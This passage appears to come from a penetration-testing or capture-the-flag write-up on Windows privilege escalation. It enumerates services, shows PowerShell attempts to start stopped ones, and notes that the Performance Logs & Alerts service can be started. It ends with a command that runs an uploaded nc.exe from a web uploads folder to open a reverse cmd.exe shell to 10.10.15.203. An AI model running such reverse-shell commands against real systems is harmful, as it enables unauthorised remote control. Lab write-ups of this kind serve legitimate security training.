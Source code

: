```aaa
Stopped  SensrSvc           Sensor Monitoring Service             
Stopped  smphost            Microsoft Storage Spaces SMP          
Running  Spooler            Print Spooler                         
Stopped  sppsvc             Software Protection                   
Running  SstpSvc            Secure Socket Tunneling Protocol Se...
Running  SystemEventsBroker System Events Broker                  
Running  TimeBrokerSvc      Time Broker                           
Stopped  UevAgentService    User Experience Virtualization Service
Stopped  UnistoreSvc        User Data Storage                     
Stopped  UserDataSvc        User Data Access                      
Stopped  UsoSvc             Update Orchestrator Service           
Stopped  vds                Virtual Disk                          
Stopped  WaaSMedicSvc       Windows Update Medic Service          
Stopped  WdBoot             Windows Defender Antivirus Boot Driver
Running  WdFilter           Windows Defender Antivirus Mini-Fil...
Running  WdNisDrv           Windows Defender Antivirus Network ...
Running  WdNisSvc           Windows Defender Antivirus Network ...
Running  WinDefend          Windows Defender Antivirus Service    
Running  WinHttpAutoProx... WinHTTP Web Proxy Auto-Discovery Se...
Stopped  WpnUserService     Windows Push Notifications User Ser...
Stopped  wuauserv           Windows Update  
```

Let’s see if we can start any of these stopped services. Most of them will give an error like this:

```aaa
PS C:\temp> start-service ktmrm
start-service ktmrm
start-service : Service 'KtmRm for Distributed Transaction Coordinator (ktmrm)' cannot be started due to the following 
error: Cannot open ktmrm service on computer '.'.
At line:1 char:1
+ start-service ktmrm
+ ~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Start-Service],  
   ServiceCommandException
    + FullyQualifiedErrorId : CouldNotStartService,Microsoft.PowerShell.Commands.StartServiceCommand
```

But a few will not act so whiny, for example:

```aaa
PS C:\temp> start-service pla
start-service pla
PS C:\temp> get-service pla | fl
get-service pla | fl


Name                : pla
DisplayName         : Performance Logs & Alerts
Status              : Running
DependentServices   : 
ServicesDependedOn  : {RPCSS}
CanPauseAndContinue : False
CanShutdown         : True
CanStop             : True
ServiceType         : Win32ShareProcess
```


[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }